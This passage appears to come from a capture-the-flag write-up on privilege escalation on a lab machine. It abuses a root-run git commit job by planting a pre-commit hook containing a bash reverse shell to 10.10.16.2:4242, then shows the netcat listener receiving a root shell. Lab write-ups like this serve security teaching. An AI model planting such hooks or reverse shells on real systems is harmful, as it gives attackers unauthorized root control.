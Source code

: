 ### Privilege Escalation <a href="#privilege-escalation" id="privilege-escalation"></a>

Let’s use `pspy` to see what processes are running on a machine. After some time, I noticed the `/usr/local/bin/git-sync script` runs every few minute.

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

![Desktop View](http://localhost:1313/opensource/media11.png)

I also noticed that the `git-commit` command making backups every minute, which makes me think about privilege escalation via `git-hooks` .

Since git-commit is done from the user’s directory, but as root, and dev01 can modify `/home/dev01/.git/hooks`, we can use it to elevate privileges.

Firstly, we need to change `/home/dev01/.git/hooks/pre-commit.sample` :

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.16.2/4242 0>&1
```

Then, remove the .sample extension and wait for the next backup:

```bash
➜ Downloads git:(public) ✗ nc -nlvp 4242
Connection from 10.10.11.164:51218
bash: cannot set terminal process group (2583): Inappropriate ioctl for device
bash: no job control in this shell
root@opensource:/home/dev01# ls /root/
ls /root/
config
meta
root.txt
```
